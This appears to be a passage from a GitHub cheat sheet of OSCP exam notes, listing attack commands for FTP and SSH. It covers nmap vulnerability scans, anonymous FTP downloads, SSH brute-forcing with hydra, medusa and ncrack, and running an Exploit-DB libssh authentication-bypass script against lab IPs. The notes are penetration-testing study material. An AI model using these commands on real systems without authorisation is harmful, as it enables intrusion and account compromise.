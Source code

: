 # OSCP-NOTES


# Port 21 - FTP

nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.11.1.111

Check banners for exploits when connecting as well!

Is anonymous access allowed? Can you connect via web browser?
wget --recursive ftp:///anonymous:anonymous@IP


# Port 22 - SSH
If you have usernames test login with username:username

Vulnerable Versions: 7.2p1

Vulnerable Versions: 7.2p1

nc 10.11.1.111 22

User can ask to execute a command right after authentication before it’s default command or shell is executed

ssh -v user@10.10.1.111 id


Check Auth Methods:

$ ssh -v 10.10.1.111

OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive

Force Auth Method:

$ ssh -v 10.10.1.111 -o PreferredAuthentications=password
...
debug1: Next authentication method: password

BruteForce:

hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111

medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh

ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111


LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access 

Id

python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
